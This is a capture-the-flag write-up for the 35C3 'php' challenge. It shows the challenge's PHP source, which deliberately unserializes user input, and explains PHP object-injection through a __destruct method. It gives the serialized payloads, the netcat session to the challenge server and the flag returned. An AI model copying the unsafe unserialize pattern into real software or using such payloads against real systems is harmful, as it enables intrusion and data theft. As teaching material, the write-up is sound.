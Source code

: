 # 35c3_php
Solution for 35c3 php challenge

The challenge consists of a single php file. 
```
<?php
$line = trim(fgets(STDIN));
$flag = file_get_contents('/flag');
class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}
$a = @unserialize($line);
throw new Exception('Well that was unexpected…');
echo $a;
```

1. It reads the user input from STDIN.
2. It reads the content of the flag file into $flag variable.
3. It declares a class named 'B', with a destructor function that echos the content of $flag.
4. It uses PHP serialization library to unserialize the user input.
5. It throws an exception.


PHP serialization library is the source of many vulnerabilities. Common logical bugs involve actions done from magic methods such as 
\__destruct.

We can serialize an instance of 'B' class, which means that its destructor will get called at some point and echo the content of the flag.

O:1:"B":0:{};

Still, that didn't work. This is because the exception that gets thrown in the next line. I'm not sure if this caused the destructor not to execute, or simply doesn't allow any more echo calls at that point since an exception is thrown.

To overcome this, I wanted to make sure the destruct method gets called prior to the exception being thrown. To do so, I crafted the following serialized string:

a:2:{i:1;O:1:"B":0:{};i:2;o:1:"C":0:{};}

This will unserialize an array, consisting of a 'B' object as its first item. For the second item, we will try to unserialize an object of class 'C' which isn't declared. That will throw an exception. As that call to unserialize has the @ mark before it, php will silence any php error the function raises. As the unserialize call already instantiated an instance of 'B' class, and there is not any reference to it, it has to call its destruct method and echo the content of $flag.

```
gal@ubuntu:/var/www/html$ nc 35.242.207.13 1
a:2:{i:1;O:1:"B":0:{};i:2;o:1:"C":0:{};}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
gal@ubuntu:/var/www/html$
```
